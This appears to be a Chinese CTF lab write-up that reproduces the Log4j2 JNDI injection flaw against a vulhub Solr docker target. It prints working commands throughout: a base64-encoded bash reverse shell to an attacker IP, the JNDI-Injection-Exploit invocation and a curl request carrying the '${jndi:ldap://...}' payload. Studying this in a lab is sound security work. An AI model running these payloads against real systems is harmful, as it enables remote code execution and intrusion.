








log4j2 - CTF
===

用 docker 搭建靶机完成渗透, 理解 log4j2 漏洞。

### 靶机准备

首先准备 docker 文件, 编辑 `docker-compose.yaml`:

```yaml
version: '2'
services:
  solr:
    image: vulhub/solr:8.11.0
    ports:
      - "8983:8983"
      - "5005:5005"
```

在同一目录执行 `docker-compose up -d`:


拉取完毕后启动镜像, 访问 8983 端口:


### log4j2 漏洞原理

#### log4j2

`log4j2` 是 Java 中常用的日志文件框架, 主要是帮助开发者记录程序运行时的信息, 例如调试信息, 运行错误等。

`log4j2` 存在一个关键特性: 支持插入**动态内容**, 例如变量和表达式, 并且支持插件来自定义功能, 比如**解析${xxx}表达式**。

> 看到这里已经有可以渗透的点了, 如果 Log4j2 不对用户的输入进行过滤, 那么就和 sqli 一样存在明显的注入问题。

#### JNDI

JNDI（Java Naming and Directory Interface） 是 Java 的一个 API，用于**访问命名和目录服务**。

简单说，它是一个 "中间人"，允许 Java 程序通过统一接口访问各种资源（如数据库、远程对象、文件系统等）。

在攻击链中, JNDI 是一个 "跳板" , 通过 `jndi:ldap://` 的调用方式触发远程加载恶意类。

#### LDAP

LDAP 是一套轻量级目录访问协议, 其作用类似电话簿, LDAP 支持**通过名称快速查找**, 并且数据保持树形结构, 以层级的方式住址: 如 `A-B-C-D`。

#### 完整攻击链

1. 设计 payload 
构造恶意 payload ,包含`${jndi:ldap://attacker_IP/exploit} `的请求

2. 消息日志解析 
消息日志在生成时, 解析 payload 并产生 jndi 查询。

3. 加载恶意类 
由于 ldap 中填入的是攻击机的 ip, 因此此时调用 LDAP 服务时, 会向攻击方发送请求, 并执行 `exploit` 利用

4. 执行任意代码
如果 `exploit` 中为恶意代码, 例如 shellcode, 那么这里就会直接发送一个**反弹shell**到攻击机上。


### log4j2 漏洞复现

#### 扫描连接


开启靶机端口映射, 这样 kali 才能访问对应端口:

```bash
docker run -d -p 8983:8983 --name log4j2 sha256:052794134d434bc2db0775211589beb372412af333a262dbf7977d28ec8d2142
```

用 nmap 初步扫一下:




访问一下网页:



在 kali 中用 telnet 尝试连接:


#### 构造 payload

首先对 shellcode 作 base64 编码:

```bash
# `192.168.170.145` 为攻击机地址:
echo "bash -i >& /dev/tcp/192.168.170.145/4444 0>&1" | base64
```



JNDI 攻击工具需要 Java 8 环境:

> kali 不自带 java 8 环境, 具体安装和多版本切换: [CSDN博客](https://blog.csdn.net/2301_79518550/article/details/147173477)
> ```bash
> # 注册 Java 和 Javac 命令
> sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_202/bin/java" 0
> sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_202/bin/javac" 0
> # 设置默认 Java 版本
> sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_202/bin/java
> sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_202/bin/javac
> ```

确认一下 Java 当前版本:

> 项目地址: [Github](https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0)



然后启动这个 JNDI 注入项目:

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3MC4xNDUvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" -A 192.168.170.145 

```
> `-C`: Base64 编码的反弹 Shell 命令。
> `-A`: 地址, 攻击机 kali 的 ip 。
> 输出为payload: `ldap://192.168.170.145:port/Exploit`



`JNDI Links` 中显示的就是利用(Exploit)。

#### 查找 Solr 服务

查看所有 core（核心）名称:

```bash
sudo curl 'http://192.168.170.1:8983/solr/admin/cores?action=STATUS&wt=json'
```



可见有一个名为 demo 的接口, 接下来只需要使用这个接口, 让其把 URL 或参数写入日志, 就会触发 JNDI。

#### 触发漏洞

在 kali 上启动端口 4444 的监听, 然后就可以触发这个利用了:

```bash
curl -G \
  --data-urlencode "q=\${jndi:ldap://192.168.170.145:1389/evbn4l}" \
  "http://192.168.170.1:8983/solr/demo/select?wt=json"
```

> 用 `--data-urlencode` 可以让浏览器地址栏自动对某些字符编码, 确保参数准确传到服务器上。





kali 上已经收到了反弹shell, 至此 log4j2 复现完毕。

~「务必在受控环境中测试，切勿在生产环境随意执行」~